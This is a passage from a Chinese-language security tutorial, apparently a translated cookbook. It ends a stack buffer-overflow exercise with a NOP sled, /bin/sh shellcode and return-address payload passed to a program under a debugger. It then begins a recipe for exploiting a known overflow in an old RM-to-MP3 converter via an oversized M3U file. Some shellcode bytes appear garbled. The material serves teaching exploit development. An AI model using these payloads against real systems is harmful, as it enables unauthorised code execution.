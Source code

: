 22.  我们有 100 个字节，外壳代码是 24 个字节。我们可以利用这一点。
23.  现在，我们只需将`A`s 替换为`76`无操作汇编指令（`0x90`，其余 24 字节替换为外壳代码，`B`s 替换为我们希望 EIP 指向的内存地址，`C`s 再次替换为无操作代码。这应该是这样的：

```
 "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\
        x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
        +"\xa0\xff\xf1\xbf"+"\x90"*20
```

24.  让我们重新运行程序并将其作为输入传递：

```
 r $(python -c print' "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\
        x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\
        xcd\x80"+"\xa0\xff\xf1\xbf"+"\x90"*20')
```

25.  我们键入`c`从断点继续，一旦执行完成，我们将执行 shell。

# 利用真实软件中的缓冲区溢出

您已经在前面学习了利用漏洞的基本知识。现在，让我们在一些很久以前就已经被利用的软件上尝试这些方法，并且公开利用这些方法。在本食谱中，您将了解旧软件的公开可用漏洞利用，并为其创建自己的漏洞利用版本。

在开始之前，我们需要一个旧版本的 Windows 操作系统（最好是 Windows XP）和一个用于 Windows 的调试器。我使用了免疫调试器和一个已知存在缓冲区溢出漏洞的旧软件。我们将使用*简易 RM-to-MP3 转换器*。此版本在播放大型 M3U 文件时存在缓冲区溢出漏洞。

# 准备

免疫调试器的免费版本可在[下载 https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/) 。

# 怎么做。。。

按照给定的步骤了解它：

1.  接下来，我们下载并在机器上安装 MP3 转换器。
2.  此转换器在播放 M3U 文件时存在漏洞。当打开一个大文件进行转换时，软件崩溃。
3.  让我们创建一个文件，其中写入了大约 30000 个`A`，并将其保存为`<filename>.m3u`：

![](img/2237b2f9-0aa0-4912-80e7-01c65bcc2b91.png)
